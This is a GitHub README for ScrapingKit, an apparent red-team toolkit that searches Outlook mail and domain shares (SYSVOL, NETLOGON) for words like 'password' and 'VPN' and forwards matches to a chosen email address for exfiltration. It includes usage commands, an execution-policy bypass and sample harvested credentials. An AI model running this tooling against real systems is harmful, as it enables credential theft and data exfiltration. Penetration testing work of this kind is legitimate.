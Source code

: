 # ScrapingKit
## v1.5 Release
Brought to you by [Neil Lines](https://twitter.com/myexploit2600) & [Andy Gill](https://twitter.com/ZephrFish) at [Lares Labs](https://labs.lares.com).
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/4655e287-cc3c-480c-97a7-e280c9fcb149)


Scraping Kit is made up of several tools for scraping services for keywords, useful for initial enumeration of Domain Controllers or if you have popped a user's desktop, their outlook client. Each component has a function that currently supports scraping and emailing the contents to a designated email address for easy exfiltration.

The kit contains two tools currently, with more to come in the coming months and more customisation options.

- [SharpScrapeKit](https://github.com/LaresLLC/ScrapingKit/tree/main/SharpScrapeKit)
- [PSScrapeKit](https://github.com/LaresLLC/ScrapingKit/tree/main/PSScrapeKit)

## SharpScrapeKit

### What it is

It helps identify files that contain specific keywords in both emails via the Outlook desk app, and the local domain controller via the Policies and Scripts directories within the SYSVOL folder of an Active Directory domain. It then provides information about the matches and can be used to hunt for potential words such as username and password present in those files.

### How to setup/use

Read this blog post for more detailed information over on [Lares Labs](https://labs.lares.com/)

[https://labs.lares.com/introducing-scraping-kit/](https://labs.lares.com/introducing-scraping-kit/)

#### Required NuGet Packages

1. Right-click on the project 'ScrapeKit' under Solution Explorer and select Manage NuGet Packages.
2. Click Browse, search for the packages below, and install.

```
Microsoft.Office.Interop.Outlook" Version="15.0.4797.1004"
MicrosoftOfficeCore" Version="15.0.0"
System.DirectoryServices" Version="7.0.1"
System.DirectoryServices.AccountManagement" Version="7.0.0"
```

`TargetFramework > net6.0`

Compile then execute with either PowerShell or CMD, or if you have physical access, double click it.
The following menu screen will load.

```
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
```

The Sharp implementation of the tool will pull the domain from environmental variables or if you want to specify it manually it will prompt you to do so.

### Example Option 1 using the default keywords

After selecting option 1, you will be requested to add a destination email address, all matches will be forwarded to the added address.
 
``` Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
Y
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```


### Example Option 1 using user-defined keywords

You can select the default keywords or add your own keywords by selecting N at the prompt.

```Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
1
Enter the email address to forward matching emails:
dhfrdfdg@REDACTED.com
Would you like to only scrape for the following keywords: 'password', 'security', 'confidential', 'VPN', and 'WIFI' (Y/N)
n
Enter additional keywords (comma-separated):
happy1
Matching email found. Forwarded the email information to dhfrdfdg@REDACTED.com
```

### Example Option 2 DC scrape with user defined keyword

```
C:\Users\user2>C:\Users\user2\Desktop\ScrapeKit.exe
Please select an option:
1. Run Outlook Email Search
2. Run Active Directory Keyword Search
3. Exit
2
Please provide at least one keyword as a command-line argument.
happy
Match found in file \\WIN-4Q0A4190APL.hacklab.local\SYSVOL\HACKLAB.LOCAL\Scripts\Test1\Herllo.txt!
Additional keywords found in the context:
user
username
name
username:
username:
Context:
sfsfisfjhsf sfjbsfj sf sf


username: happy1
password: test1
```

## PSScrapeKit

### What it is

PSScrapeKit is a PowerShell implementation of ScrapeKit, it consists of two files; DCScraper & OutlookScrape. Each has a specific function for scraping either a DC or Outlook. The Outlook scraper will connect to the user's Outlook client, search for keywords then queue up any interesting emails and send to an email of your choosing. Whereas the DC one will connect to sysvol and look for specific keywords or a default list.

- DCScrape.ps1
- OutlookScrape.ps1

### How to Use

See [PSScrapeKit](https://github.com/LaresLLC/ScrapingKit/tree/main/PSScrapeKit)

#### OutlookScrape
Simply import the module then execute it:

```
ipmo .\OutlookScrape.ps1
Invoke-OutlookScrape
```

It will give you two options:
```
Select keyword option:
1. User-defined keywords
2. Default keywords (password, security, confidential, VPN, WIFI)
Enter the keyword option: 
```

Simply select an option then specify an email and the rest will queue up and do its thing.

### Example execution:
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/870ff5d6-2380-4d4f-956b-71f16267feb2)
![image](https://github.com/LaresLLC/ScrapingKit/assets/5783068/1357b27c-bad5-453b-b4cf-ed244d39d21d)

### Domain Scrape
***Invoke-Scrape.ps1***


Offers users the following 2 options. 


Scrape the Domain Controller - This option will only scrape NETLOGON and SYSVOL directories.
Scrape all Domain Shares - This option only scrapes NETLOGON on the DC and then all other readable available domain shares.

SYSVOL contains Group Policies (GPP), if you don’t want to manually review them use option 1.



***Invoke-NetShareScrape.ps1***

Used to hunt for keywords in files stored across network shares, Invoke-NetShareScrape.ps1 will enumerate all shares the user that executed can access, and then scrape the following file doc formats .txt|\.ini|\.xml|\.bat|\.ps1|\.doc|\.docx|\.xlsx|\.xls for the user defined keywords.


```
PS C:\> powershell.exe -nop -exec bypass
PS C:\> Import-Module Invoke-NetShareScrape.ps1
PS C:\> Invoke-NetShareScrape

Enter initial keyword (or press enter to finish):
cat
Enter additional keyword (or press enter to finish):
```

## Future Plans
- Share Scraping Module, similar to snaffler but more opsec safe
- Scraping contents of specific files on DCs/Other hosts
- Other automation and enumeration
